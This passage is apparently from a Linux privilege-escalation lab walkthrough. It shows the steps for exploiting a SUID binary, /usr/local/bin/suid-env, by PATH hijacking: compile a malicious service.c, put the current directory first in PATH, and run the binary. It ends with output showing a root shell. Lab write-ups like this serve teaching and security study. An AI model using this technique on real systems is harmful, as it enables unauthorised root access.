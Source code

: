 	Compile service.c into a file called service:

		gcc -o service service.c

	Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

		PATH=.:$PATH /usr/local/bin/suid-env
		root@debian:~# id
		uid=0(root) gid=0(root) groups=0(root) ...
